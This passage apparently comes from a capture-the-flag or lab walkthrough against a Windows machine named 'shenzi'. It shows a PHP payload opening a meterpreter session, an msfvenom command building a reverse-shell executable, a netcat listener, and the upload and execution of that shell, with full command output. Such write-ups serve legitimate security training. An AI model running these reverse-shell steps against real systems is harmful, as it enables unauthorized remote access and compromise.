 Once the file is updated, and our handler is running, we can navigate to the file to trigger our reverse shell.

Our PHP payload is executed on the server, and a meterpreter session is activated in our exploit handler.

[*] Sending stage (38288 bytes) to 192.168.65.55
[*] Meterpreter session 1 opened (192.168.49.65:443 -> 192.168.65.55:49807) at 2020-12-22 00:23:55 -0500

meterpreter > getuid
Server username: shenzi (0)
meterpreter >

Upgrading PHP Shell

Since PHP reverse shells are somewhat unstable, let's upload a more stable shell, which we'll generate with msfvenom.

kali@kali~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.65 LPORT=139 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes

Let's set up a Netcat listener on port 139.

kali@kali~# sudo nc -lvp 139
listening on [any] 139 ...

Next, we can upload and execute the more-stable shell using our meterpreter connection.

meterpreter > upload shell.exe
[*] uploading  : shell.exe -> shell.exe
[*] Uploaded -1.00 B of 7.00 KiB (-0.01%): shell.exe -> shell.exe
[*] uploaded   : shell.exe -> shell.exe
meterpreter > execute -f shell.exe
Process 6060 created.
meterpreter >

We should receive the shell in our Netcat listener.

kali@kali~# sudo nc -lvp 139
listening on [any] 139 ...
192.168.65.55: inverse host lookup failed: Unknown host
connect to [192.168.49.65] from (UNKNOWN) [192.168.65.55] 49808
Microsoft Windows [Version 10.0.18363.836]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\shenzi>whoami
whoami
shenzi\shenzi

C:\xampp\htdocs\shenzi>

Escalation
Local Enumeration

